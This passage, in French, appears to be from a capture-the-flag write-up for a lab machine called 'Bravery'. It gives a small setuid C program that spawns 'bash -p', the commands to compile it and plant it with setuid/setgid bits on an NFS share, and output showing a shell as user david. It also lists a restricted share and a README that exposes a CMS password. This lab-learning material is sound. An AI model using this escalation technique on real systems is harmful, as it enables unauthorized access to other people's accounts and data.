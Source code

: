 L'utilisateur David a l'UID et le GID 1000. Je créé le petit code C que voici :  

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(void) {
  setreuid(1000, 1000);
  setregid(1000, 1000);
  system("bash -p");
  return 0;
}
```

Je compile, je met les bits set(u|g)id et je met sur le partage NFS :  

```bash
gcc -o setuid_david setuid_david.c -static
sudo chown 1000:1000 setuid_david
sudo chmod u+s setuid_david
sudo chmod g+s setuid_david
sudo mv setuid_david /mnt/bravery/
```

Côté VM tout a marché comme sur des roulettes :  

```plain
bash-4.2$ ls -l /var/nfsshare/setuid_david
-rwsr-sr-x. 1 david david 3536680 Dec 13 19:31 /var/nfsshare/setuid_david
bash-4.2$ /var/nfsshare/setuid_david
[david@bravery /]$ id
uid=1000(david) gid=1000(david) groups=1000(david),48(apache) context=system_u:system_r:httpd_t:s0
```

On peut aussi jeter un œil au partage qui nous était restreint :  

```plain
[david@bravery ~]$ ls -l /samba/secured/
total 12
-rw-r--r--. 1 root root 376 Jun 16  2018 david.txt
-rw-r--r--. 1 root root 398 Jul 23  2018 genevieve.txt
-rw-r--r--. 1 root root 323 Jul 23  2018 README.txt
```

Je vous met le contenu du *README.txt* mais je ne suis pas sûr qu'il soit d'un quelconque intérêt :  

```plain
README FOR THE USE OF THE BRAVERY MACHINE:

Your use of the BRAVERY machine is subject to the following conditions:

1. You are a permanent staff in Good Tech Inc.
2. Your rank is HEAD and above.
3. You have obtained your BRAVERY badges.

For more enquiries, please log into the CMS using the correct magic word: goodtech.
```
